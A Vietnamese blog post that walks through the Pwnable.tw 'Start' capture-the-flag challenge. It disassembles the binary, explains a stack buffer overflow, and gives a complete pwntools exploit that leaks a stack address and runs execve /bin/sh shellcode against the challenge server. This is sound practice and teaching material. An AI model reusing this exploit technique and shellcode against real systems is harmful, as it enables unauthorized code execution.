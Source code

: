```yaml
---
layout: post
title:  Pwnable.tw
comments: true
---
```


## 0x00 Giới thiệu
Khoảng một tháng trở lại đây, tôi chuyên tâm hơn vào việc chơi pwn. Một phần là vì mảng pwn khó, phần còn lại là tôi nghĩ nó có thể giúp tôi kiếm được tiền :)) Vì là một người mới, những kiến thức mà tôi viết ở đây có thể chưa chính xác hoàn toàn. Rất mong các bạn đọc góp ý để tôi phát triển hơn nữa. 

[Pwnable.tw](https://pwnable.tw/) là một trang luyện tập mảng pwn khá nổi tiếng của Đài Loan. Theo tôi cảm nhận, thử thách ở đây khá khó cho người mới. Nếu các bạn không làm được thì cũng đừng lấy gì làm lạ. Tôi đã mất khoảng hơn 1 tuần để nghiền ngẫm challenge đầu tiên. 

## 0x01 Start

### I. Tổng quan
![](/images/Pwnable.tw/0x01%20Start/start.png)

Đề bài cho chúng ta duy nhất một file là `start`. Việc đầu tiên tôi thường làm sẽ là kiểm tra xem file là 32 hay 64 bits. Để kiểm tra, tôi thường dùng `file`.
```shell
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
 Thông tin cho chúng ta biết được đây là một file 32 bits. Load chương trình vào IDAPRO x32, quan sát các hàm ở mục `Functions`, nhận thấy rằng chương trình chỉ xoay quanh hàm `_start`.  

### II. Phân tích 

```
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

Mã assembly của hàm `_start` rất dễ đọc, chúng ta sẽ đi phân tích nội dung từng đoạn code. 

Việc đầu tiên là đẩy thanh ghi `ESP` và offset của hàm `_exit` vào trong stack. Sau đó, gán giá trị của 4 thanh ghi `EAX, EBX, ECX, EDX = 0`. Tiếp theo là đẩy các giá trị `3A465443h, 20656874h, 20747261h, 74732073h, 2774654Ch` vào trong stack. 

Câu hỏi đặt ra ở đây là 5 con số trên là gì vậy? Rất đơn giản, nó chính là: 
- 3A465443h = ":FTC" 
- 20656874h = " eht"
- 20747261h = " tra"
- 74732073h = "ts s"
- 2774654Ch = "'teL"

Chúng đại diện cho chuỗi "**Let's start the CTF:**"

Đoạn mã tiếp theo, chương trình gọi ra 2 system call là sys_write và sys_read

```
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
```

Thông tin system call 
- Đọc chuỗi từ địa chỉ ESP hiện tại 
- Độ dài: 0x14 bytes
- File descriptor: stdout

```
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
```

Thông tin system call 
- Đọc số byte: 0x3C 

Đoạn mã cuối cùng tăng giá trị thanh `ESP` lên 0x14 đơn vị. `retn` gọi địa chỉ thanh ghi `ESP` đang giữ rồi cộng `ESP` lên 4 đơn vị.  

```
add     esp, 14h
retn
```

### III. Lỗ hổng

Chúng ta cùng nhìn qua cấu trúc của stack trước khi gọi 2 system call. 

![Alt text](/images/Pwnable.tw/0x01%20Start/image.png)

Giá trị của thanh ghi `ESP` ở: 
- Hiện tại:  `0xFFFFD124`
- Ban đầu:  `0xFFFFD140`

Chú ý rằng, thường các challenge sẽ bật **Address Space Layout Randomization** nên giá trị thanh ghi `ESP` ban đầu luôn có giá trị ngẫu nhiên. (Đây là lý do vì sao mình không lấy `ESP = 0xFFFFD140` để khai thác lỗ hổng)

Như ta đã phân tích ở trên, `sys_read` cho phép đọc 60 bytes vào stack. Nếu chúng đã nhập vào 20 bytes, thì từ địa chỉ `0xFFFFD124` đến `0xFFFFD134` sẽ được fill đủ. Giả sử chúng ta tiếp tục nhập vào, các giá trị tại các địa chỉ trên nó sẽ bị thay đổi. 

### IV. Hướng tấn công 

Công việc chúng ta cần thực hiện: 
1. Lấy được địa chỉ thanh ghi `ESP` ban đầu. 
2. Từ việc có được giá trị thanh ghi `ESP` ban đầu, chúng ta sẽ đưa địa chỉ trả về của hàm là địa chỉ của shellcode. 

### Công việc 1
![Alt text](/images/Pwnable.tw/0x01%20Start/image-1.png)

Để lấy giá trị của thanh ghi `ESP` ban đầu rất đơn giản. Chúng ta nhập đủ 20 bytes để lấp đầy địa chỉ từ `0xFFFFD124` đến `0xFFFFD134`, tiếp tục ghi thêm 4 bytes `0x08048087` để chương trình có thể gọi system call read và write lần thứ 2. 

Bây giờ, giá trị của thanh ghi `ESP` sẽ là: `0xFFFFD124 + 0x14 + 0x4 = 0xFFFFD13C`. Chú ý, đây cũng là nơi chứa giá trị thanh ghi `ESP` ban đầu. 

Lợi dụng việc gọi `sys_write` lần thứ 2. Chỉ cần in ra 4 bytes đầu tiên, chúng ta sẽ lấy được địa chỉ `ESP` ban đầu.  

```python
payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
```

### Công việc 2

Sau khi đã có địa chỉ `ESP` ban đầu. Việc của chúng ta là phải tính toán xem phải input bao nhiêu ký tự để chương trình có thể thực thi được shellcode. 

Gọi địa chỉ `ESP` ban đầu là `ESP = X`, giá trị hiện tại `ESP = X - 4`

![Alt text](/images/Pwnable.tw/0x01%20Start/image-2.png)

Sau khi `sys_read` được gọi, `ESP + 0x14`, nghĩa là `ESP` đứng ở `X + 16`. Ở `X + 16`, chúng ta chỉ cần gán cho nó giá trị là `X + 20`, nơi shellcode được viết. Hàm trả về sẽ là địa chỉ shellcode được bắt đầu. 

```python
payload2 = b'x' * 0x14 + p32(leaked_esp + 0x14) + shellcode
```

### V. Mã khai thác 
```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" 

payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
payload2 = b'x' * 0x14 + p32(esp_leaked + 0x14) + shellcode
r.send(payload2)

r.interactive()
```

### VI. Tham khảo
1. [Pwnable.tw - Start @y198](https://hackmd.io/@y198/ry6GrF3gi)
2. [Pwnable.tw - Start @c01dkit](https://blog.csdn.net/weixin_43483799/article/details/113844032)